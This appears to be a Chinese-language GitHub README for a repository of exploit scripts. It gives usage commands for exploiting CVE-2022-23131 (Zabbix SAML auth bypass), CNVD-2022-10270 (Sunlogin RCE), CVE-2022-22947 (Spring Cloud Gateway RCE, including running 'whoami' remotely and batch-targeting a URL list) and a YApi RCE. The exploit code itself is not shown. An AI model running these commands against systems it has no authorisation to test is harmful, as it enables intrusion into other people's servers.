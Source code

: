 # vuln_script
漏洞脚本

```
Yapi远程命令执行漏洞.py

```

## CVE-2022-23131 Zabbix SAML SSO认证绕过     CVE-2022-23131.py
```
python3 CVE-2022-23131.py -u http://127.0.0.1 -a Admin
```
![image](https://user-images.githubusercontent.com/33044636/156746852-69ffce94-4d5b-4cea-bfe5-688304ec08aa.png)



## 向日葵存在命令执行漏洞(CNVD-2022-10270)     sunlogin_rce.py

## 验证
```
python3 sunlogin_rce.py
```
![image](https://user-images.githubusercontent.com/33044636/156746675-ae44db14-24f6-4bde-a400-07b970cf1fb5.png)




## Spring Cloud Gateway 远程代码执行漏洞       CVE-2022-22947.py

### 单个验证

具体的参数请看使用说明 `python3 CVE-2022-22947.py -h`

```
python3 CVE-2022-22947.py -u http://10.108.0.52:8080 -x whoami
```
![image](https://user-images.githubusercontent.com/33044636/156746308-40ff11ec-fdd1-4559-8d19-8bbc94a58ae0.png)


### 批量验证

```
python3 CVE-2022-22947.py -f url.txt
```
![image](https://user-images.githubusercontent.com/33044636/156746195-85182e7c-957f-49a5-b029-4c4e9ff6da28.png)

